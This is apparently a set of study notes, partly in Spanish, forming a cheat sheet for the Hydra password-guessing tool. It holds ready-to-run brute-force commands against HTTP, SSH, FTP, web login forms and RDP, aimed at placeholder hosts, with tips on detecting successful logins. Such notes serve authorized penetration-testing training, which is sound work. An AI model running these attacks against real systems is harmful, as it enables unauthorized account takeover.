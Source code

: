 ```shell-session
hydra -L usernames.txt -P passwords.txt www.example.com http-get
``` 
## Targeting Multiple SSH Servers

```shell-session
hydra -l root -p toor -M targets.txt ssh
```

## Testing FTP Credentials on a Non-Standard Port

```shell-session
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
```

## Brute-Forcing a Web Login Form

```shell-session
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

Look for a successful login indicated by the HTTP status code `302`


## Advanced RDP Brute-Forcing

Now, imagine you're testing a Remote Desktop Protocol (RDP) service on a server with IP `192.168.1.100`. You suspect the username is "administrator," and that the password consists of 6 to 8 characters, including lowercase letters, uppercase letters, and numbers. To carry out this precise attack, use the following Hydra command:

```shell-session
 hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```


## Login forms

```shell-session
hydra [options] target http-post-form "path:params:condition_string"
```
EJEMPLO:

Si cuando metemos credenciales que no son sale un mensaje `Invalid credentials` entonces podremos filtrar de esta forma : 
```
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
```

Si cuando las credenciales son válidas da un error 302 entonces :

```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

o si te pasa a Dashboard :

```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"
```
